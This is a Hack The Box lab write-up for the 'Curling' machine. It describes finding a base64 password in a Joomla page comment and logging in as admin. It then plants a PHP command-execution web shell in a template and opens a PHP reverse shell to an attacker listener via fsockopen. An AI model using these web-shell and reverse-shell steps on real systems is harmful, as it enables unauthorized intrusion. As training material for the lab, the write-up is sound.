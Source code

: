 ```bash
```

Just two ports open, port 22 for SSH and port 80 for HTTP.
Let's start with HTTP. From the nmap scan we can see that it is a `Joomla` CMS. We get this after visiting the page.

![home]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/curling/home.png)

Looks like the front page visible to the public. I saw a few posts written by `Super User` and `Floris`. These could be usernames.
Looking at the source, I found a comment.

![secret]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/curling/secret.png)

Probably a file in the root directory? Let's check it out.

![pass]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/curling/pass.png)

Looks like base64. Let's try to decode it.

```bash
root@kali:~/Curling# cat secret.txt | base64 -d
Curling2018!
```

Well, probably a password? Let's navigate to the `administrator` page. A little Google-Fu showed me where could people manage the CMS.

![admin]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/curling/admin.png)

I used `Floris:Curling2018!` to login to the administrator page and we can login! We get this page...

![admin]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/curling/login.png)

## PHP Shell upload

A little Google-Fu helped me find where I could upload files and get a shell. I am going to use the `Beez3` template.

![admin]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/curling/template.png)

I will create a new file in the root directory `shell.php` and write a simple php script that takes in a parameter and runs it through `system()`. Let's see if it works.

![admin]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/curling/shell.png)

The file uploaded successfully. It can be accessed at `/templates/beez3/shell.php`
I am going to try the command `id` in the parameter that we created.

![admin]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/curling/cmdexec.png)

And we have command execution. Next step is to get a shell. For that, I will use `php -r '$sock=fsockopen("<my-ip>",9001);exec("/bin/sh -i <&3 >&3 2>&3");'` to connect to a `ncat` listener running on my system. I am going to URL encode this just in case the browser does not take `&` as a start of a new command.
There we have it, a low-privilege shell.
